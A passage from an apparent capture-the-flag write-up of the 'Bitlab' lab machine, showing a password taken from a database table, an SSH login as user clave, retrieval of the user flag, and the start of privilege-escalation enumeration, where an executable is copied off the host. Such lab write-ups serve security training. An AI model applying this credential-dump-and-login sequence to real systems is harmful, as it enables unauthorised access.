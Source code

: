 

I'll grab everything from the one table:



    profiles=> select * from profiles;
     id | username |        password        
    ----+----------+------------------------
      1 | clave    | c3NoLXN0cjBuZy1wQHNz==
    (1 row)



### SSH

While that may look base64 encoded, it's actually clave's password. I
can connect over ssh from here:



    root@kali# ssh clave@10.10.10.114
    The authenticity of host '10.10.10.114 (10.10.10.114)' can't be established.
    ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.114' (ECDSA) to the list of known hosts.
    clave@10.10.10.114's password: 
    Last login: Thu Aug  8 14:40:09 2019
    clave@bitlab:~$



And now I can grab `user.txt`:



    clave@bitlab:~$ cat user.txt 
    1e3fd81e************************



## Priv: clave --\> root

### Enumeration

Also sitting in clave's homedir is an exe:



    clave@bitlab:~$ ls
    RemoteConnection.exe  user.txt
    clave@bitlab:~$ file RemoteConnection.exe 
    RemoteConnection.exe: PE32 executable (console) Intel 80386, for MS Windows



Kind of weird to have an exe sitting on a Linux home directory. I'll
pull it back with `scp`:



    root@kali# scp clave@10.10.10.114:~/RemoteConnection.exe .
    clave@10.10.10.114's password: 
    RemoteConnection.exe                                   100%   14KB 193.9KB/s   00:00 
